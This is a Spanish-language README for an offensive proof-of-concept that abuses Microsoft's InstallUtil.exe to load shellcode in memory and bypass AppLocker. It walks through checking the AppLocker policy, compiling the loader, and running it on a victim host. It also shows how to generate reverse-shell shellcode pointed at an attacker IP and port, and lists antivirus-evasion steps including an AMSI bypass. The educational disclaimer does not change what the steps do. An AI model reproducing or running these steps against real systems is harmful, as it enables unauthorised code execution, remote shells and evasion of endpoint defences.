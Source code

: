 
# 🚀 InstallUtil Shellcode Loader (.NET LOLBAS)

Este proyecto es una prueba de concepto que demuestra cómo abusar del binario legítimo `InstallUtil.exe` para ejecutar código arbitrario en memoria (shellcode), incluso en entornos restringidos con AppLocker habilitado. Utiliza técnicas **LOLBAS (Living Off the Land Binaries and Scripts)** para evadir controles de seguridad.

---

## 📌 ¿Qué es InstallUtil?

`InstallUtil.exe` es una herramienta legítima de Microsoft que se usa para registrar y desinstalar servicios. Se encuentra en:

- **32-bit:** `C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe`
- **64-bit:** `C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe`

Debido a que está firmada por Microsoft y ubicada en `C:\Windows`, AppLocker suele permitirla bajo sus reglas predeterminadas.

---

## ⚙️ Funcionamiento

Este proyecto define una clase `Installer` personalizada que sobrescribe el método `Uninstall()`. Al ejecutar `InstallUtil.exe /u`, se invoca ese método y se carga un payload (`micr0_shell`) en memoria utilizando llamadas directas a la API de Windows:

- `VirtualAlloc` – reserva memoria RWX
- `Marshal.Copy` – copia el shellcode en esa memoria
- `CreateThread` – ejecuta el shellcode
- `WaitForSingleObject` – espera a que termine

---

## ✅ Validar que AppLocker lo permite

Antes de ejecutar el ataque, asegúrate de que `InstallUtil.exe` está **permitido** por la política efectiva de AppLocker:

```powershell
Get-AppLockerPolicy -Effective | Test-AppLockerPolicy -Path "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe"
```

Si ves:

```
PolicyDecision     MatchingRule
--------------     -------------
Allowed            All files located in the Windows folder
```

✅ ¡Puedes proceder! AppLocker permite el binario y tu bypass funcionará.

---

## 💻 Requisitos

- Sistema de destino: **Windows x64**
- Shellcode compatible con **x64**
- Acceso para ejecutar `InstallUtil.exe` (requiere permisos elevados)
- Mono (para compilar desde Linux)

---

## 🛠️ Compilación (en Linux con Mono)

```bash
sudo apt install mono-complete
mcs -target:library -platform:x64 -r:System.Configuration.Install.dll -out:NotMalware_IU.dll NotMalware_IU.cs
```

---

## 🚀 Ejecución (en Windows víctima)

```powershell
C:\Windows\Microsoft.NET\Framework64\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Path\NotMalware_IU.dll
```

> El método `Uninstall()` será invocado automáticamente y ejecutará el shellcode en memoria.

---

## 🧨 Generar shellcode

Puedes usar `micr0_shell` para generar shellcode crudo en formato C# (byte array):
git clone https://github.com/senzee1984/micr0_shell

pip install keystone-engine

USO:
python3 'micr0 shell.py' --ip 192.168.1.45 --port 443 --type cmd --language c --variable shellcode --execution false --save True --output buf.bin

Pega el contenido directamente dentro del `byte[] shellcode` en el archivo `.cs`.

---

## 🔐 Evasión adicional (opcional)

Para evitar detección por AV:

- Cifra el shellcode con XOR o AES
- Realiza la decodificación en tiempo de ejecución
- Cambia nombres de clases y métodos
- Aplica AMSI Bypass antes de la carga del shellcode

---

## 🧪 Estructura del repositorio

```
.
├── NotMalware_IU.cs         # Código fuente del loader
└── README.md                # Este archivo
```

---

## ⚠️ Disclaimer

Este código es **únicamente para fines educativos y de investigación**. El uso no autorizado de estas técnicas puede violar leyes locales o internacionales. El autor no se hace responsable del mal uso de esta herramienta. **Úsalo solo en entornos controlados y con permiso explícito.**

---

## 🔗 Referencias

- [LOLBAS Project](https://lolbas-project.github.io/)
- [Microsoft Docs - InstallUtil.exe](https://learn.microsoft.com/en-us/dotnet/framework/tools/installutil-exe-installer-tool)
- [HTB Academy – Windows Evasion Techniques](https://academy.hackthebox.com/module/254/section/2833/)
```

